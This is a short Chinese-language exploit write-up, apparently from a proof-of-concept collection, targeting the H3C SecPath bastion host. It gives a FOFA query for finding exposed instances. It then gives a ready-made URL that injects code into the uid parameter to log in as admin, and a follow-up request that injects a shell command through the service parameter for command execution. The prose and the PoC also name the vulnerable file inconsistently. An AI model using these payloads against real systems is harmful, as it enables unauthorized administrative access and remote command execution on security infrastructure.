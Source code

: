 ## H3C-SecParh堡垒机任意用户登录漏洞

H3C SecParh堡垒机的get_detail_view.php中存在任意用户登录漏洞。攻击者可以构建一个恶意URL，利用该漏洞进行攻击。

## fofa
```
app="H3C-SecPath-运维审计系统" && body="2018"
```
![image](https://github.com/user-attachments/assets/adf1012d-6261-4586-a6ce-b51fcbcd353f)

## poc
```
/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=admin
```

![image](https://github.com/wy876/POC/assets/139549762/8494d9aa-bd2f-4ecb-800f-d27308de54d8)

![image](https://github.com/wy876/POC/assets/139549762/7a66984a-8669-43e1-a527-e3460fc49501)


## 命令执行

通过任意用户登录或者账号密码进入后台才可以构造特殊的请求执行命令

```
https://IP地址:端口/audit/data_provider.php?ds_y=2019&ds_m=04&ds_d=02&ds_hour=09&ds_min40&server_cond=&service=$(pwd)&identity_cond=&query_type=all&format=json&browse=true
```
